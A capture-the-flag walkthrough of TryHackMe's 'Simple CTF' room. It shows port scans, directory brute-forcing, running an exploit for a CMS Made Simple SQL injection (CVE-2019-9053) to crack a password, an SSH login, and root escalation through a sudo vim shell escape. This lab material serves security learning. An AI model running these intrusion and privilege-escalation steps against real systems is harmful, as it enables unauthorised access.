

# Simple CTF

<figure><figcaption></figcaption></figure>

[Simple CTF](https://tryhackme.com/room/easyctf)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.86.206`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

```bash
su
echo "10.10.86.206 simple_ctf.thm" >> /etc/hosts

mkdir thm/simple_ctf
cd thm/simple_ctf

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 simple_ctf.thm
```

```bash
PING simple_ctf.thm (10.10.86.206) 56(84) bytes of data.
64 bytes from simple_ctf.thm (10.10.86.206): icmp_seq=1 ttl=63 time=72.8 ms
64 bytes from simple_ctf.thm (10.10.86.206): icmp_seq=2 ttl=63 time=80.6 ms
64 bytes from simple_ctf.thm (10.10.86.206): icmp_seq=3 ttl=63 time=61.8 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system (probably Linux), while Windows systems usually have a TTL of 128 secs.

#### 2.1 - How many services are running under port 1000?

```bash
nmap -p- --open -sS -n -Pn simple_ctf.thm -oG open_ports
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-04 12:36 CEST
Nmap scan report for simple_ctf.thm (10.10.86.206)
Host is up (0.066s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

> 2 ports open under port 1000

#### 2.2 - What is running on the higher port?

The higher port is 2222

```bash
2222/tcp open  EtherNetIP-1
```

```bash
nmap -p2222 -sC -sV simple_ctf.thm 
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-04 12:43 CEST
Nmap scan report for simple_ctf.thm (10.10.86.206)
Host is up (0.062s latency).

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> SSH is running on port 2222

#### 2.3 - What's the CVE you're using against the application?

OpenSSH 7.2p2 is a pretty old version. We can search exploits on Exploid-DB website or with:

```bash
searchsploit -s openssh 7.2p2s
```

```bash
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 7.2p2 - Username Enumeration                                                    | linux/remote/40136.py
OpenSSHd 7.2p2 - Username Enumeration                                                   | linux/remote/40113.txt
---------------------------------------------------------------------------------------- ---------------------------------
```

#### 2.4 - To what kind of vulnerability is the application vulnerable?

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053)

An issue was discovered in CMS Made Simple 2.2.8. It is possible with the News module, through a crafted URL, to achieve unauthenticated blind time-based SQL injection via the m1\_idlist parameter.

This means that we need to look for a login form

> SQLi

#### 2.5 - What's the password?

Now, try to inspect webpage and his resource. I start by searching for info on the site with whatweb.

```bash
whatweb http://simple_ctf.thm
```

```bash
http://simple_ctf.thm/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.86.206], Title[Apache2 Ubuntu Default Page: It works]
```

Then I search from browser for the site, inspect the code and the file /robots.txt

<figure><figcaption><p>simple_ctf.thm:80image</p></figcaption></figure>

<figure><figcaption><p>html source code</p></figcaption></figure>

<figure><figcaption><p>robots.txt</p></figcaption></figure>

After these standard checks, we look for any hidden pathways with gobuster.

```bash
gobuster dir -u simple_ctf.thm -w /usr/share/wordlists/dirb/common.txt
```

```bash
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://simple_ctf.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/04 15:04:40 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htpasswd            (Status: 403) [Size: 298]
/.htaccess            (Status: 403) [Size: 298]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 302]
/simple               (Status: 301) [Size: 317] [--> http://simple_ctf.thm/simple/]
Progress: 4600 / 4615 (99.67%)
===============================================================
```

We found this interesting path:

```bash
/simple               (Status: 301) [Size: 317] [--> http://simple_ctf.thm/simple/]
```

<figure><figcaption><p>simple_ctf.thm/simple</p></figcaption></figure>

We perform the search only on this specific route:

```bash
gobuster dir -u simple_ctf.thm/simple -w /usr/share/wordlists/dirb/common.txt
```

```bash
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://simple_ctf.thm/simple
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/04 15:08:49 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 305]
/.hta                 (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 305]
/admin                (Status: 301) [Size: 323] [--> http://simple_ctf.thm/simple/admin/]
/assets               (Status: 301) [Size: 324] [--> http://simple_ctf.thm/simple/assets/]
/doc                  (Status: 301) [Size: 321] [--> http://simple_ctf.thm/simple/doc/]
/index.php            (Status: 200) [Size: 20073]
/lib                  (Status: 301) [Size: 321] [--> http://simple_ctf.thm/simple/lib/]
/modules              (Status: 301) [Size: 325] [--> http://simple_ctf.thm/simple/modules/]
/tmp                  (Status: 301) [Size: 321] [--> http://simple_ctf.thm/simple/tmp/]
/uploads              (Status: 301) [Size: 325] [--> http://simple_ctf.thm/simple/uploads/]
Progress: 4611 / 4615 (99.91%)
===============================================================
```

We found this interesting path:

```bash
/admin                (Status: 301) [Size: 323] [--> http://simple_ctf.thm/simple/admin/]
```

<figure><figcaption><p>simple_ctf.thm/simple/admin</p></figcaption></figure>

We finally found our login page, return to exploit db and analyze the exploit code.

<figure><figcaption></figcaption></figure>

We save the file, make it executable, and run it.

```bash
chmod +x exploit.py
python exploit.py -u http://simple_ctf.thm/simple --crack -w /usr/share/wordlists/rockyou.txt
```

```bash
  File "/home/kali/thm/simple_ctf/exploit.py", line 25
    print "[+] Specify an url target"
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
```

In Python 3, the `print` statement has been replaced with the `print()` function, which must be called with parentheses. In Python 2, the `print` statement did not require parentheses.

We can convert script to python3 vs:

```bash
2to3 -w exploit.py
```

```bash
python exploit.py -u http://simple_ctf.thm/simple --crack -w /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

> secret

#### 2.6 - Where can you login with the details obtained?

```bash
ssh mitch@simple_ctf.thm -p 2222
```

```bash
The authenticity of host '[simple_ctf.thm]:2222 ([10.10.86.206]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[simple_ctf.thm]:2222' (ED25519) to the list of known hosts.
mitch@simple_ctf.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
```

> SSH

#### 2.7 - What's the user flag?

<pre class="language-bash"><code class="lang-bash">$ $ ls
<strong>user.txt
</strong>$ cat user.txt
</code></pre>

<details>

<summary>Flag (user.txt)</summary>

```
G00d j0b, keep up!
```

</details>

#### 2.8 - Is there any other user in the home directory? What's its name?

```bash
$ cd ..
$ ls
mitch  sunbath
```

> sunbath

#### 2.9 - What can you leverage to spawn a privileged shell?

On to privileged escalation! First I like to start off with running “sudo -l” to see what my current user can run.

```bash
sudo -l
```

```bash
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

We can see the user “mitch” can run /usr/bin/vim without a password. With that information, let’s check out GTFOBins and see if we can use that for privesc.

```bash
sudo vim -c ':!/bin/sh'
```

```bash
whoami
root
```

> Vim

2.10 - What's the root flag?

```
cd root
ls
root.txt
cat root.txt
```

<details>

<summary>Flag (root.txt)</summary>

W3ll d0n3. You made it!

</details>


